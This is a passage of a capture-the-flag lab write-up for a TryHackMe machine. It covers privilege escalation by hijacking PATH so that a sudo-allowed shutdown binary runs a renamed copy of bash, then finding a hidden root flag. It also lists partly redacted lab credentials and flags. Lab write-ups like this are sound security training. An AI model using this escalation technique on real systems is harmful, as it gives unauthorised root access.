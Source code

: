 \newpage
## Phase #3: Privilege Escalation
1\. We find that we can execute the `/usr/sbin/shutdown` file with `sudo`. Since the target machine doesn't have `strings` installed, we transfer this file to our attacking machine and investigate further. We find a reference to the `poweroff` binary name, which when combined with the fact that `secure_path` is not defined within `/etc/sudoers` (seen in `sudo -l` output), hint that a environment path modification vector could help us escalate privileges:  

![writeup.privesc.steps.1.1](Box%20Write-ups/thm.yotf/screenshot13.png)  

2\. We copy bash to the local directory, rename it to `poweroff` and modify the `PATH` environment variable to search for file within current directory first. With this change, we then execute `shutdown` file and get elevated privileges:  
``` {.python .numberLines}
cp /bin/bash ./
mv ./bash poweroff
ls -la poweroff /bin/bash
md5sum poweroff /bin/bash
sudo /usr/sbin/shutdown

```

![writeup.privesc.steps.2.1](Box%20Write-ups/thm.yotf/screenshot14.png)  

![writeup.privesc.steps.2.2](Box%20Write-ups/thm.yotf/screenshot15.png)  

3\. We see the third flag file `root.txt` but it turns out to be placeholder. After some searching, we find the actual root flag file `.did-you-think-I-was-useless.root`, hidden within user `rascal`'s home directory:  
``` {.python .numberLines}
cat /home/rascal/.did-you-think-I-was-useless.root

```

![writeup.privesc.steps.3.1](Box%20Write-ups/thm.yotf/screenshot16.png)  

![writeup.privesc.steps.3.2](Box%20Write-ups/thm.yotf/screenshot17.png)  


\newpage
## Learning/Recommendation
* The webapp exposed a search field which was vulnerable to command injection. This allowed the attacker to gain interactive access of the target machine. It is advised to follow a secure development lifecycle for critical production web applications.
* The `shutdown` binary was vulnerable to a path expansion attack which allowed the attacker to gain elevated privileges.

## Loot
### Credentials
``` {.python .numberLines}
ssh: fox/1234...
webapp: rascal/l...
```
### Flags
``` {.python .numberLines}
/var/www/web-flag.txt: THM{Nzg2ZWQwYWUwN2UwOTU3N............
/home/fox/user-flag.txt: THM{Njg3NWZhNDBjMmNlMzNkM............
/home/rascal/.did-you-think-I-was-useless.root: THM{ODM3NTdkMDljYmM4.................
```
